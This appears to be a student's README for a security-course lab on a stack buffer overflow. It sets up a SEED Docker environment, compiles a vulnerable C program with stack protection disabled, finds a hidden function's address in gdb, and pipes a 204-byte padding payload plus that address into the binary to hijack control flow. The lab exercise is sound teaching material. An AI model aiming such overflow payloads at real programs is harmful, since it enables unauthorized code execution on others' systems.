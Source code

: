 # Lab#1 Conduct buffer overflow attack .
## Prepared the eviroment .
  1. Open your Docker Destop
  2. Choice the folder contain file lab and open Terminal
     
      ```bash
      git clone https://github.com/quang-ute/myprojects
      ```
      and after that:
     ```bash
     cd myprojects
     ```
  3. Build the image `img4lab` by Docker
     ```bash
     docker build -t img4lab .
     ```
     and run docker container
     ```bash
      docker run -it --privileged -v $HOME/seclabs:/home/seed/seed@ img4lab
     ```
  4. On `seed@...`
     ```
     cd seclabs
     ```
     create a new direction named `bof`
     ```bash
     mkdir bof
     ```
     and after that:
     ```bash
     cd bof
     ```
     and Open you VSCode -> Connect to WSL -> Open folder `bof`  and catch file bof1, bof2, bof3 from `https://github.com/quang-ute/Security-labs/tree/main/Software/buffer-overflow`
## Attack
![image](https://github.com/user-attachments/assets/3ca0dd01-c5b1-4abd-adcb-757f64f60c0d)
If an attacker supplies more input than the buffer array[200] can handle, they could potentially control the flow of the program and execute unintended code.

1. On `/seclabs/bof$`
   ```bash
   gcc -g bof1.c -o bof.out -fno-stack-protector -mpreferred-stack-boundary=2
   ```
   and load bof1.out in gdb
  
    ```bash
    gdb bof1.out
    ```
  2. Use the disassemble command to display the assembly code
     ```bash
     disas secretFunc
     ```
     ![image](https://github.com/user-attachments/assets/7ee1e5e0-441a-4a39-9a40-bb98f3545acc)
  The secretFunc() memory region is `0x0804846b`
  3. Input 'a'*204 followed by `0x0804846b`
     ```bash
     echo $( python -c "print('a'*204 + '\x6b\x84\x04\x08')") | ./bof1.out
     ```
       ![image](https://github.com/user-attachments/assets/a93df09c-aaec-4d0d-8bb4-f96f3cb402b4)
     To remove the Missing arguments line, add any value at the end of your command

     ```bash
     echo $( python -c "print('a'*204 + '\x6b\x84\x04\x08')") | ./bof1.out 120
     ```
     ![image](https://github.com/user-attachments/assets/3074ef1f-1809-45df-b5aa-61ef31dffcff)

     



    
